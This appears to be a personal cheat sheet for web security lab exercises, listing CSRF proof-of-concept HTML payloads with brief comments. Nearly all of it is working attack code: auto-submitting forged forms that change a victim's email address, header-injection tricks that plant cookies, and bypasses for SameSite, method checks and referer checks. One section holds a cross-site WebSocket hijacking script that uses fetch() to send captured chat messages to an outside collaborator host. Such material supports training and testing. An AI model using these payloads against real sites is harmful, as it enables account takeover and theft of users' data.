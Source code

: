 # CSRF

## CSRF Basic

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="csrf" value="Sva13Y6L5p53RX36TctucnIF9uidTLQ1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF when validation depends on method

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="csrf" value="Sva13Y6L5p53RX36TctucnIF9uidTLQ1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF when validation depends on parameter

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF when token is not tied to user
 
### All you need to do is log in, go into developer tools and copy the current CSRF token

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="csrf" value="dv8v5Gdv5Lf2zec2BoIKTKmkvDdRj4bw" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF when token is tied to non-session cookie

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="csrf" value="8jKJhpk3fHoEPQgFAYt4xHaeC7aLvT1R" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://<your-lab-id>/?search=test%0d%0aSet-Cookie:%20csrfKey=SQ4BFfEbxcLoK5Y07lSf9vVbHw7QaI3r%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF when token is duplicated in cookie 

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="csrf" value="YOWwenYebAJYEkOdN7yrXZEZbzjzRFxN" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://<your-lab-id>/?search=test%0d%0aSet-Cookie:%20csrf=YOWwenYebAJYEkOdN7yrXZEZbzjzRFxN%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF Samesite Lax bypass

### _method changes the method if allowed

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF SameSite strict via client open redirect

```html
<script>
    document.location = "https://<your-lab-id>/post/comment/confirmation?postId=../my-account/change-email?email=asdf%40asdf.asdf%26submit=1";
</script>
```

## CSRF SameSite Strict via sibling domain

### This lab uses cross-site websocket hijacking

```html
Connect to websocket script
<script>
    var ws = new WebSocket('wss://<your-lab-id>/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator>', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

    Used the second domain that was vulnerable to XSS to send in this script on exploit server
<script>
    document.location = "https://<your-second domain>/login?username=%3Cscript%3E+++++var+ws+%3D+new+WebSocket%28%27wss%3A%2F%2F<your-lab-id%2Fchat%27%29%3B+++++ws.onopen+%3D+function%28%29+%7B+++++++++ws.send%28%22READY%22%29%3B+++++%7D%3B+++++ws.onmessage+%3D+function%28event%29+%7B+++++++++fetch%28%27https%3A%2F%2F1y<your-collaborator>%27%2C+%7Bmethod%3A+%27POST%27%2C+mode%3A+%27no-cors%27%2C+body%3A+event.data%7D%29%3B+++++%7D%3B+%3C%2Fscript%3E&password=pas"
</script>
```

## CSRF bypass via cookie refresh
### Only works for SSO because SSO disables Lax for 2 minutes

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      window.onclick = () => {
        window.open('https://<your-lab-id>/social-login');
      }
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where referer header must be present

### meta tag removes the header

```html
<html>
<meta name="referrer" content="never"/>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF with bad referer validation

- pushState sets what comes after first /
- Also I need to put: Referrer-Policy: unsafe-url in headers

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/csrf?<your-lab-id>');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
